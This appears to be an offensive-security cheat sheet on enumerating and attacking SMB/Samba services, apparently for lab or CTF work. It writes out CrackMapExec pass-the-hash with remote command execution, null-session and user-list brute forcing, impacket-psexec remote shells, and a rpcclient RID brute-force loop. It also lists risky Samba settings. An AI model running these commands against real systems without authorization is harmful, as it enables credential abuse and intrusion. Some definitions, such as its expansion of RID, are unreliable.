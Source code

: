 # SMB

## About

<mark style="color:red;">**Server Message Block (SMB)**</mark> is a client-server <mark style="color:purple;">**protocol**</mark> that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network. The **SMB** protocol enables the client to communicate with other participants in the same network to access files or services shared with it on the network. By default is <mark style="color:yellow;">**using ports 137, 138, 139, and 445**</mark>

## CrackMapExec

<mark style="color:yellow;">**Null-session**</mark> login, or **Pass-The-Hash** Attack

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
OR
crackmapexec smb {DOMAIN} -u '' -p '' --shares
OR
crackmapexec smb {DOMAIN} -u 'blibbityblabbity' -p '' --shares
```

Check if there are **users from list** available

```bash
crackmapexec smb {DOMAIN} -u users.txt -p '' -d . --continue-on-success
# Or we could do user=password type of attack with using:
crackmapexec smb {DOMAIN} -u users.txt -d . --no-bruteforce --continue-on-success
```

| Command                                                       | Explanation                               |
| ------------------------------------------------------------- | ----------------------------------------- |
| <mark style="color:green;">**`--shares`**</mark>              | Look for SMB shares                       |
| <mark style="color:green;">**`--continue-on-success`**</mark> | Continue after finding right creds        |
| <mark style="color:green;">**`--no-bruteforce`**</mark>       | just using worlist without any variations |
| <mark style="color:green;">**`--rid-brute`**</mark>           | Bruteforce RID                            |
| <mark style="color:green;">**`--local-auth`**</mark>          | Local auth, without domain creds          |
| <mark style="color:green;">**`-M`**</mark>                    | Use module                                |
| <mark style="color:green;">**`--sam`**</mark>                 | Extract SAM hashes                        |
| <mark style="color:green;">**`--exec-method`**</mark>         | Method used for executing commands        |
| <mark style="color:green;">**`--loggedon-users`**</mark>      | Enumerate logged in users                 |

We could also

## Samba

<mark style="color:red;">**Samba**</mark> is an alternative variant to the **SMB** server, developed for Unix-based operating system. Samba implements the <mark style="color:red;">**Common Internet File System (CIFS)**</mark> network protocol. **CIFS** is a "dialect" of **SMB**. In other words, **CIFS** is a very specific implementation of the **SMB** protocol, which in turn was created by Microsoft. Therefore, it usually is referred to as **SMB / CIFS**. However, **CIFS** is the extension of the **SMB** protocol.

* Samba server over TCP ports <mark style="color:yellow;">**137**</mark>, <mark style="color:yellow;">**138**</mark>, <mark style="color:yellow;">**139**</mark>, but CIFS uses TCP port <mark style="color:yellow;">**445**</mark> only. In a network,using Samba, each host participates in the same <mark style="color:red;">**workgroup**</mark>. A workgroup is a group name that identifies an arbitrary collection of computers and their resources on an SMB network.
* <mark style="color:green;">**`smbstatus`**</mark> command to see who, from which host, and which share the client is connected.
*   Config location:

    ```bash
    cat /etc/samba/smb.conf | grep -v "#\|\;"
    ```

## TOOLS

There are a lot different tools for SMB interacton:

### Smbclient

**Connecting to the Share with&#x20;**<mark style="color:green;">**`smbclient`**</mark>

```bash
smbclient -N -L //13.13.13.13
```

**OR**

```bash
smbclient -U username \\\\13.13.13.13\\share
```

* <mark style="color:green;">**`-N`**</mark> is for <mark style="color:yellow;">**null session**</mark>, which is anonymous access without the input user/pass. And <mark style="color:green;">**`-L`**</mark> is to list all shares.
* For basic interaction with share, you would need only these commands:
  * <mark style="color:green;">**`help`**</mark> to have list of available commands
  * <mark style="color:green;">**`ls`**</mark> list
  * <mark style="color:green;">**`get`**</mark> download
  * <mark style="color:green;">**`!command`**</mark> user prefix ! before command to execute it locally

### SMBMap

* Regular SMB enum

```bash
smbmap -H 13.13.13.13
```

* Recursive SMB enum

```bash
smbmap -H 13.13.13.13 -r share
```

* Download to SMB server:

```bash
smbmap -H 13.13.13.13 --download "share\example.txt"
```

* Upload to SMB server

```bash
smbmap -H 13.13.13.13 --upload example.txt "share\example.txt"
```

### Impacket-smbclient

```bash
impacket-smbclient 'asdasda@domain.ad' -no-pass
sudo impacket-smbserver share ./ -smb2support # Creation of SMB Server
```

### Impacket-psexec

```bash
impacket-psexec administrator:'amoguskek'@13.13.13.13
# Same goes for impacket-smbexec and impacket-atexec
```

### RPCclient

<mark style="color:red;">**Remote Procedure Call (RPC)**</mark> is a <mark style="color:purple;">**concept**</mark> and, therefore, also a central <mark style="color:purple;">**tool**</mark> to realize operational and work-sharing structures in networks and client-server architectures. Other words, **RPC** is a mechanism for interaction between processes that are executed on different nodes in the networ&#x6B;**.** The communication process via **RPC** includes passing parameters and the return of a function value. Also **RPC** have <mark style="color:red;">**Remote Invocation Descriptor**</mark> or <mark style="color:red;">**RID**</mark>,which is a unique <mark style="color:purple;">**identifier**</mark> assigned to each remote procedure call. It is used to keep track of and manage the execution of remote procedures. Also there is a nice <mark style="color:yellow;">**cheatsheet**</mark> from SANS Institute [**\[LINK\]**](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

* Connect to SMB server

```bash
rpcclient -U "" 13.13.13.13
rpcclient $> {function}
```

With connected **RPC** client we could use many different functions as:

| Function                                                        | Description                                                       |
| --------------------------------------------------------------- | ----------------------------------------------------------------- |
| <mark style="color:green;">**`srvinfo`**</mark>                 | Server information                                                |
| <mark style="color:green;">**`enumdomains`**</mark>             | Enumerate all domains that are deployed in the network            |
| <mark style="color:green;">**`querydominfo`**</mark>            | Provides domain, server, and user information of deployed domains |
| <mark style="color:green;">**`netshareenumall`**</mark>         | Enumerates all available shares                                   |
| <mark style="color:green;">**`netsharegetinfo <share>`**</mark> | Provides information about a specific share                       |
| <mark style="color:green;">**`enumdomusers`**</mark>            | Enumerates all domain users                                       |
| <mark style="color:green;">**`queryuser <RID>`**</mark>         | Provides information about a specific user                        |
| <mark style="color:green;">**`querygroup <RID>`**</mark>        | Provides information about a specific group                       |

## Dangerous Settings

* <mark style="color:green;">**`browseable = yes`**</mark> - Allow listing available shares in the current share?
* <mark style="color:green;">**`read only = no`**</mark> - Forbid the creation and modification of files?
* <mark style="color:green;">**`writable = yes`**</mark> - Allow users to create and modify files?
* <mark style="color:green;">**`guest ok = yes`**</mark> - Allow connecting to the service without using a password?
* <mark style="color:green;">**`enable privileges = yes`**</mark> - Honor privileges assigned to specific SID?
* <mark style="color:green;">**`create mask = 0777`**</mark> - What permissions must be assigned to the newly created files?
* <mark style="color:green;">**`directory mask = 0777`**</mark> - What permissions must be assigned to the newly created directories?
* <mark style="color:green;">**`logon script = script.sh`**</mark> - What script needs to be executed on the user's login?
* <mark style="color:green;">**`magic script = script.sh`**</mark> - Which script should be executed when the script gets closed?
* <mark style="color:green;">**`magic output = script.out`**</mark> - Where the output of the magic script needs to be stored?

## Tips2Hack

1. To bruteforce RID using rpcclient to do active enum of users and groups you could use this command:

```bash
for i in $(seq 500 1100);do rpcclient -N -U "" 13.13.13.13 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```

3. Or for the same cause you could try yo use [**samrdump.py**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py) script
4. You could use [**enum4linux-ng**](https://github.com/cddmp/enum4linux-ng) or <mark style="color:green;">**`enum4linux`**</mark>

```bash
./enum4linux-ng.py 13.13.13.13 -A
```

***

